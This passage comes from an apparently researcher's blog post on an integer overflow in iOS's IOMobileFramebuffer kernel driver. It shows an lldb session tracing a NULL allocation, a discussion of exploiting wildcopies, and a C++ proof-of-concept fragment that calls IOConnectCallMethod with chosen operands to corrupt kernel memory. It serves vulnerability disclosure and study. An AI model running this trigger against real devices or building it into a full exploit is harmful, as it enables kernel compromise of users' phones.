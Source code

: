 And, at 0xFFFFFFF0098EF2AC (where X0 is the return value of *kalloc_ext*):

```
Process 1 stopped
* thread #1, stop reason = breakpoint 1.1
    frame #0: 0xfffffff0098ef2ac
->  0xfffffff0098ef2ac: str    x0, [x19, #0x28]          <-- X0 is kalloc_ext()'s return value
    0xfffffff0098ef2b0: ldr    w8, [x19, #0x20]
    0xfffffff0098ef2b4: ldr    w9, [x19, #0x10]
    0xfffffff0098ef2b8: cmp    w9, #0x0                  ; =0x0 
Target 0: (No executable module.) stopped.
(lldb) reg read x0
      x0 = 0x0000000000000000
```

Fantastic! This explains everything. Just as I suspected, the previous dereference was actually a NULL+offset, due to an allocation failure. So, for exploitation, we simply need to choose different operands that will overflow to a relatively smaller number. This would make the allocation succeed, and we could start corrupting (a lot of) memory.

The POC works on iOS 15.0 with the exact same panic as well (tested on a virtual iPhone 11 Pro, iOS 15.0):

![image](https://github.com/saaramar/IOMFB_integer_overflow_poc/raw/main/docs/assets/corellium_11_pro.png)

An interesting important note is that other implementations of these functions in other classes also had this integer overflow. As far as I can see, the patch fixed these as well. This is not a surprise, because usually when we see a code pattern repeats itself, it's an inline function / macro / etc.

## Exploitation

I just bindiffed the bug, so there will be no full exploit in this blogpost; However, we can still discuss the exploitation of wildcopies in general and improve the POC to set the ground for exploitation :) But before we start talking about wildcopies, let me just share some POCs that give us better control on the flow and trigger a good panic.

### Control the operands

First, let set arbitrary values in the offsets the operands are taken from (instead of setting 0x41s in the entire input). Nothing exciting here; it's just reversing of the caller function of *IOMFB::TableCompensator::BilerpGainTable::new_from_data*. The updated part in the POC:

```c++
...
    memset(input, 0x0, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x41414141;
    pArr[3] = 0x42424242;
    pArr[8] = 0x43434343;
    pArr[89] = 0x44444444;
    
    ret = IOConnectCallMethod(iomfb_uc, 78,
                        scalars, 2,
                        input, input_size,
                        NULL, NULL,
                        NULL, NULL);
...
```
